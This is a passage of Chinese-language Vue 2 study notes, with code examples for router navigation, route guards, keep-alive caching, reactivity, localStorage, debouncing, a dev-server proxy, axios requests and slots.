          <button @click="replaceBtn(message)">replace查看</button>
        </li>
      </ul>
      <router-view></router-view>
    </div>
</template>

<script>
export default {
  data() {
    return {
      messageList:[
        {id:'001',title:'message001'},
        {id:'002',title:'message002'},
        {id:'003',title:'message003'}
      ]
    }
  },
  methods: {
    pushBtn(message){
      this.$router.push({
        name:'detailName',
        query:{
          id:message.id,
          title:message.title
        }
      })
    },
    replaceBtn(message){
      this.$router.replace({
        name:'detailName',
        query:{
          id:message.id,
          title:message.title
        }
      })
    },
  }
}
</script>
```


### 缓存路由组件

```html
<!-- 缓存路由组件 -->
    <!-- include中传递的是组件的命名，不传include，那么所有在router-view中展示过的组件都会被缓存，不会被销毁 -->
    <!-- 缓存多个的话那么写成 :include="['a','b',...]",名称是组件名name属性值 -->
    <keep-alive include="NewsComponent">
      <router-view></router-view>
    </keep-alive>
```


### 路由组件独有的两个生命周期钩子函数

```js
export default {
  name:'NewsComponent',
  beforeDestroy() {
    console.log('About中的News组件即将被销毁')
  },
  // 路由组件展示时调用
  activated() {
    this.timer = setInterval(()=>{
      console.log('该路由组件展示')
    })
  },
  // 路由组件销毁时调用
  deactivated() {
    clearInterval(this.timer)
  },
}
```


### 路由元信息

```js
// meta可以为组件的$router对象的meta属性对象添加自己设置的属性和值
routes:[{
			name:'guanyu',
			path:'/about',
			component:About,
			meta:{title:'关于'}
		},]
```


### 路由守卫

`全局路由守卫`

````js
// 该文件专门用于创建整个应用的路由器
import VueRouter from 'vue-router'
//引入组件
import About from '../pages/About'
import Home from '../pages/Home'
import News from '../pages/News'
import Message from '../pages/Message'
import Detail from '../pages/Detail'

//创建并暴露一个路由器
const router =  new VueRouter({
	routes:[
		{
			name:'guanyu',
			path:'/about',
			component:About,
			meta:{title:'关于'}
		},
		{
			name:'zhuye',
			path:'/home',
			component:Home,
			meta:{title:'主页'},
			children:[
				{
					name:'xinwen',
					path:'news',
					component:News,
					meta:{isAuth:true,title:'新闻'}
				},
				{
					name:'xiaoxi',
					path:'message',
					component:Message,
					meta:{isAuth:true,title:'消息'},
					children:[
						{
							name:'xiangqing',
							path:'detail',
							component:Detail,
							meta:{isAuth:true,title:'详情'},

							//props的第一种写法，值为对象，该对象中的所有key-value都会以props的形式传给Detail组件。
							// props:{a:1,b:'hello'}

							//props的第二种写法，值为布尔值，若布尔值为真，就会把该路由组件收到的所有params参数，以props的形式传给Detail组件。
							// props:true

							//props的第三种写法，值为函数
							props($route){
								return {
									id:$route.query.id,
									title:$route.query.title,
									a:1,
									b:'hello'
								}
							}

						}
					]
				}
			]
		}
	]
})

//全局前置路由守卫————初始化的时候被调用、每次路由切换之前被调用
router.beforeEach((to,from,next)=>{
	console.log('前置路由守卫',to,from)
	if(to.meta.isAuth){ //判断是否需要鉴权
		if(localStorage.getItem('school')==='atguigu'){
			next()
		}else{
			alert('学校名不对，无权限查看！')
		}
	}else{
		next()
	}
})

//全局后置路由守卫————初始化的时候被调用、每次路由切换之后被调用
router.afterEach((to,from)=>{
	console.log('后置路由守卫',to,from)
	document.title = to.meta.title || '一开始'
})

export default router
````

`独享路由守卫`

````js
{
			name:'zhuye',
			path:'/home',
			component:Home,
			meta:{title:'主页'},
			children:[
				{
					name:'xinwen',
					path:'news',
					component:News,
					meta:{isAuth:true,title:'新闻'},
					beforeEnter: (to, from, next) => {
						console.log('独享路由守卫',to,from)
						if(to.meta.isAuth){ //判断是否需要鉴权
							if(localStorage.getItem('school')==='atguigu'){
								next()
							}else{
								alert('学校名不对，无权限查看！')
							}
						}else{
							next()
						}
					}
				},
````

`组件内部守卫`

```js
<template>
	<h2>我是About的内容</h2>
</template>

<script>
	export default {
		name:'About',
		/* beforeDestroy() {
			console.log('About组件即将被销毁了')
		},*/
		/* mounted() {
			console.log('About组件挂载完毕了',this)
			window.aboutRoute = this.$route
			window.aboutRouter = this.$router
		},  */
		mounted() {
			// console.log('%%%',this.$route)
		},

		//通过路由规则，进入该组件时被调用
		beforeRouteEnter (to, from, next) {
			console.log('About--beforeRouteEnter',to,from)
			if(to.meta.isAuth){ //判断是否需要鉴权
				if(localStorage.getItem('school')==='atguigu'){
					next()
				}else{
					alert('学校名不对，无权限查看！')
				}
			}else{
				next()
			}
		},

		//通过路由规则，离开该组件时被调用
		beforeRouteLeave (to, from, next) {
			console.log('About--beforeRouteLeave',to,from)
			next()
		}
	}
</script>
```


### hash模式与history模式


```js
const router = new VueRouter({
  mode: 'hash',
  routes: [...]
})
```


## Vue数据代理原理

通过Vue底层通过`Object.defineProperty`帮我们将data中的数据解析到Vue实例

```javascript
let vm = new Vue({...})
```

vm上，可以通过`vm.data里面的属性名`拿到，并且vm实例上还会有对应属性的`getter`和`setter`方法，当我们拿取data中的数据时，vm会帮我们调用getter方法去操作vm._data( _data中进行了数据劫持)拿去数据，当我们修改data中的数据时，vm会帮我们调用setter方法去操作vm._data修改数据，这就是vue的`响应式原理`


## Vue数据监视原理

1. vue会监视data中所有层次的数据。

2. 如何监测对象中的数据？

​        通过setter实现监视，且要在new Vue时就传入要监测的数据。

​         (1).对象中后追加的属性，Vue默认不做响应式处理

​         (2).如需给后添加的属性做响应式，请使用如下API：

​             `Vue.set(target，propertyName/index，value) `或 

​             `vm.$set(target，propertyName/index，value)`

3. 如何监测数组中的数据？

​         通过包裹数组更新元素的方法实现，本质就是做了两件事：

​          (1).调用原生对应的方法对数组进行更新。

​          (2).重新解析模板，进而更新页面。

4. 在`Vue修改数组中的某个元素`一定要用如下方法：

​       1.使用这些API:push()、pop()、shift()、unshift()、splice()、sort()、reverse()

​       2.Vue.set() 或 vm.$set()

​    特别注意：`Vue.set() 和 vm.$set() 不能给vm或vm的实例对象添加属性！！！`

```html
<body>
    <!-- 准备好一个容器-->
    <div id="root">
        <h1>学生信息</h1>
        <button @click="student.age++">年龄+1岁</button> <br/>
        <button @click="addSex">添加性别属性，默认值：男</button> <br/>
        <button @click="student.sex = '未知' ">修改性别</button> <br/>
        <button @click="addFriend">在列表首位添加一个朋友</button> <br/>
        <button @click="updateFirstFriendName">修改第一个朋友的名字为：张三</button> <br/>
        <button @click="addHobby">添加一个爱好</button> <br/>
        <button @click="updateHobby">修改第一个爱好为：开车</button> <br/>
        <button @click="removeSmoke">过滤掉爱好中的抽烟</button> <br/>
        <h3>姓名：{{student.name}}</h3>
        <h3>年龄：{{student.age}}</h3>
        <h3 v-if="student.sex">性别：{{student.sex}}</h3>
        <h3>爱好：</h3>
        <ul>
            <li v-for="(h,index) in student.hobby" :key="index">
                {{h}}
            </li>
        </ul>
        <h3>朋友们：</h3>
        <ul>
            <li v-for="(f,index) in student.friends" :key="index">
                {{f.name}}--{{f.age}}
            </li>
        </ul>
    </div>
</body>
<script type="text/javascript" src="../vue.js"></script>
<script type="text/javascript">
    Vue.config.productionTip = false //阻止 vue 在启动时生成生产提示。

    const vm = new Vue({
        el:'#root',
        data:{
            student:{
                name:'tom',
                age:18,
                hobby:['抽烟','喝酒','烫头'],
                friends:[
                    {name:'jerry',age:35},
                    {name:'tony',age:36}
                ]
            }
        },
        methods: {
            addSex(){
                // Vue.set(this.student,'sex','男')
                this.$set(this.student,'sex','男')
            },
            addFriend(){
                this.student.friends.unshift({name:'jack',age:70})
            },
            updateFirstFriendName(){
                this.student.friends[0].name = '张三'
            },
            addHobby(){
                this.student.hobby.push('学习')
            },
            updateHobby(){
                // this.student.hobby.splice(0,1,'开车')
                // Vue.set(this.student.hobby,0,'开车')
                this.$set(this.student.hobby,0,'开车')
            },
            removeSmoke(){
                this.student.hobby = this.student.hobby.filter((h)=>{
                    return h !== '抽烟'
                })
            }
        }
    })
</script>
```


## 自定义指令

`待填坑`


## 状态提升

`将一些组件的状态提升到他们共同的父组件中，在父组件中统一修改`


## 浏览器本地存储

1.存储内容大小一般支持5MB左右(不同浏览器可能还不一样)

2.浏览器端通过Window.sessionStorage和Window.localStorage属性来实现本地存储机制。

​	Vue组件中直接调用`sessionStorage.xxx`和`localStorage.xxx`

```javascript
localStorage.setItem('todos',JSON.stringify(value))
JSON.parse(localStorage.getItem('todos')) || []
```

3.相关API:

1. xxxxxStorage. setItem('key', 'value');

该方法接受一个键和值作为参数，会把键值对添加到存储中,如果键名存在,则更新其对应的值。

2.  xxxxxStorage . getItem( ' person' );

该方法接受一个键名作为参数,返回键名对应的值。

3. xxxxxStorage .removeItem( 'key' );

该方法接受一个键名作为参数,并把该键名从存储中删除。

4. xxxxxStorage. clear()

该方法会清空存储中的所有数据。

4.备注:

1. `SessionStorage存储的内容会随着浏览器窗口关闭而消失。`

2. `LocalStorage存储的内容,需要手动清除才会消失。`

3. `xxxxStorage . getItem(xxx)如果xxx对应的value获取不到，那么gettem的返回值是null。`

4. `JSON.parse(nu1l)的结果依然是null。`


## 防抖和节流

Vue 没有内置支持防抖和节流，但可以使用 [Lodash](https://lodash.com/) 等库来实现。

如果某个组件仅使用一次，可以在 `methods` 中直接应用防抖：

```html
<script src="https://unpkg.com/lodash@4.17.20/lodash.min.js"></script>
<script>
  Vue.createApp({
    methods: {
      // 用 Lodash 的防抖函数
      click: _.debounce(function() {
        // ... 响应点击 ...
      }, 500)
    }
  }).mount('#app')
</script>
```

但是，这种方法对于可复用组件有潜在的问题，因为它们都共享相同的防抖函数。为了使组件实例彼此独立，可以在生命周期钩子的 `created` 里添加该防抖函数:

```js
app.component('save-button', {
  created() {
    // 用 Lodash 的防抖函数
    this.debouncedClick = _.debounce(this.click, 500)
  },
  unmounted() {
    // 移除组件时，取消定时器
    this.debouncedClick.cancel()
  },
  methods: {
    click() {
      // ... 响应点击 ...
    }
  },
  template: `
    <button @click="debouncedClick">
      Save
    </button>
  `
})
```


## Vue动画

`填坑`


## 在Vue中使用第三方css库

在public下建立css文件夹

将样式文件放进去

在public中的index.html文件中使用link标签引入


## Vue中使用axios与后端通信

下载axios `npm install axios --save`

### Vue配置代理解决跨域问题

`vue.config.js`

```javascript
module.exports = {
  // 修改配置信息，需要重新启动脚手架，脚手架没有动态更新配置信息的功能
  // 方式1
  /*  devServer: {
    // 请求的端口号，
    //缺点：1、只能配置一个代理 2、本地8080有同名路径文件，将会请求本地的文件，而不会发到后端服务器
   proxy: 'http://localhost:5000'
 } */
  // 方式2
  devServer: {
    proxy: {
      // 添加名称发送的时候加上名称就是去请求远程服务器的数据，而不会去找本地脚手架public中的文件
      '/atguigu':{
        target: 'http://localhost:5000',
        // 去掉添加的名称再发给远程服务器，不然远程服务器收到的路径会带上我们加的atguigu
        pathRewrite:{'^/atguigu':''},
        // 是否支持websocket
        // ws:true,
        // 开启后后端收到的请求接口号为后端接口设置的端口号，如果不开启那么就是代理服务器的端口号
        // changeOrigin:true
      },
      '/demo':{
        target: 'http://localhost:5001',
        pathRewrite:{'^/demo':''},
      }
    },
  }
};

```

```html
<template>
  <section class="jumbotron">
    <h3 class="jumbotron-heading">搜索github的用户-回车/点击搜索</h3>
    <div>
      <input type="text" placeholder="输入你要搜索的用户名" v-model="keyWord" @keyup.enter="searchUsers">&nbsp;
      <button @click="searchUsers">搜索</button>
    </div>
  </section>
</template>
<script>
import axios from 'axios'

export default {
  data() {
    return {
      keyWord:''
    }
  },
  methods: {
    searchUsers(){
      console.log(this.keyWord)
      // 请求数据之前,点了搜索,欢迎页面不展示,加载页面展示
      this.$bus.$emit('updateListData',{isFirst:false,isLoading:true})
      axios.get(`https://api.github.com/search/users?q=${this.keyWord}`).then(
        response => {
          // console.log(this);
          console.log('请求成功',response.data.items);
          this.$bus.$emit('updateListData',{isLoading:false,users:response.data.items})
        },error => {
          console.log('请求失败',error.message);
          this.$bus.$emit('updateListData',{isLoading:false,errMsg:error.message,users:[]})
        }
      )
    }
  },
};
</script>
<style>
</style>

```


## 插槽

### 默认插槽

`App.vue`

````html
<template>
	<div class="container">
		<Category title="美食" >
			
		</Category>

		<Category title="游戏" >
			<ul>
				<li v-for="(g,index) in games" :key="index">{{g}}</li>
			</ul>
		</Category>

		<Category title="电影">
			<video controls src="http://clips.vorwaerts-gmbh.de/big_buck_bunny.mp4"></video>
		</Category>
	</div>
</template>

<script>
	import Category from './components/Category'
	export default {
		name:'App',
		components:{Category},
		data() {
			return {
				foods:['火锅','烧烤','小龙虾','牛排'],
				games:['红色警戒','穿越火线','劲舞团','超级玛丽'],
				films:['《教父》','《拆弹专家》','《你好，李焕英》','《尚硅谷》']
			}
		},
	}
</script>

<style scoped>
	.container{
		display: flex;
		justify-content: space-around;
	}
</style>
````

`Category.vue`

```html
<template>
	<div class="category">
		<h3>{{title}}分类</h3>
		<!-- 定义一个插槽（挖个坑，等着组件的使用者进行填充） -->
		<slot>我是一些默认值，当使用者没有传递具体结构时，我会出现</slot>
	</div>
</template>

<script>
	export default {
		name:'Category',
		props:['title']
	}
</script>

<style scoped>
	.category{
		background-color: skyblue;
		width: 200px;
		height: 300px;
	}
	h3{
		text-align: center;
		background-color: orange;
	}
	video{
		width: 100%;
	}
	img{
		width: 100%;
	}
</style>
```


### 具名插槽

`App.vue`

```html
<template>
	<div class="container">
		<Category title="美食" >
			
			<a slot="footer" href="http://www.atguigu.com">更多美食</a>
		</Category>

		<Category title="游戏" >
			<ul slot="center">
				<li v-for="(g,index) in games" :key="index">{{g}}</li>
			</ul>
			<div class="foot" slot="footer">
				<a href="http://www.atguigu.com">单机游戏</a>
			</div>
			<!-- 具名插槽有多个相同插槽时，后面的不会覆盖前面的，而是追加 -->
			<div class="foot" slot="footer">
				<a href="http://www.atguigu.com">网络游戏</a>
			</div>
		</Category>

		<Category title="电影">
			<video slot="center" controls src="http://clips.vorwaerts-gmbh.de/big_buck_bunny.mp4"></video>
			<!-- 使用了template的时候，插槽就有了第二种方式，但是只能在template中使用，不推荐使用 -->
			<template v-slot:footer>
				<div class="foot">
					<a href="http://www.atguigu.com">经典</a>
					<a href="http://www.atguigu.com">热门</a>
				<h4>欢迎前来观影</h4>
			</template>
		</Category>
	</div>
</template>

<script>
	import Category from './components/Category'
	export default {
		name:'App',
		components:{Category},
		data() {
			return {
				foods:['火锅','烧烤','小龙虾','牛排'],
				games:['红色警戒','穿越火线','劲舞团','超级玛丽'],
				films:['《教父》','《拆弹专家》','《你好，李焕英》','《尚硅谷》']
			}
		},
	}
</script>

<style scoped>
	.container,.foot{
		display: flex;
		justify-content: space-around;
	}
	h4{
		text-align: center;
	}
</style>
```

`Category.vue`

```html
<template>
	<div class="category">
		<h3>{{title}}分类</h3>
		<!-- 定义一个插槽（挖个坑，等着组件的使用者进行填充） -->
		<slot name="center">我是一些默认值，当使用者没有传递具体结构时，我会出现1</slot>
		<slot name="footer">我是一些默认值，当使用者没有传递具体结构时，我会出现2</slot>
	</div>
</template>

<script>
	export default {
		name:'Category',
		props:['title']
	}
</script>

<style scoped>
	.category{
		background-color: skyblue;
		width: 200px;
		height: 300px;
	}
	h3{
		text-align: center;
		background-color: orange;
	}
	video{
		width: 100%;
	}
	img{
		width: 100%;
	}
</style>
```


### 作用域插槽

`App.vue`

````html
<template>
	<div class="container">
		<Category title="游戏" >
			<!-- scope会接到插槽传递过来的对象，这里使用对象解构的形式接收games -->
			<template scope="{games}">
				<ul><li v-for="(item,index) in games" :key="index">{{item}}</li></ul>
			</template>
		</Category>
		<Category title="游戏" >
			<!-- v-slot会接到插槽传递过来的对象，这里使用对象解构的形式接收games -->
			<template v-slot="{games}">
				<ol><li v-for="(item,index) in games" :key="index">{{item}}</li></ol>
			</template>
		</Category>
		<Category title="游戏" >
			<!-- slot-scope会接到插槽传递过来的对象，这里使用对象解构的形式接收games -->
			<!-- 三种方式都可以接收到，没有什么区别 -->
			<template slot-scope="{games}">
				<p v-for="(item,index) in games" :key="index">{{item}}</p>
			</template>
		</Category>
	</div>
</template>

<script>
	import Category from './components/Category'
	export default {
		name:'App',
		components:{Category},
	}
</script>

<style scoped>
	.container {
		display: flex;
		justify-content: space-around;
	}
</style>
````

`Category.vue`

````html
<template>
	<div class="category">
		<h3>{{title}}分类</h3>
		<!-- 定义一个插槽（挖个坑，等着组件的使用者进行填充） -->
		<!-- 给插槽的使用者传递数据 -->
		<slot :games="games">我是一些默认值，当使用者没有传递具体结构时，我会出现1</slot>
	</div>
</template>

<script>
	export default {
		name:'Category',
		props:['title'],
		data(){
			return {
				games:['红色警戒','穿越火线','劲舞团','超级玛丽'],
			}
		}
	}
</script>

<style scoped>
	.category{
		background-color: skyblue;
		width: 200px;
		height: 300px;
	}
</style>
````
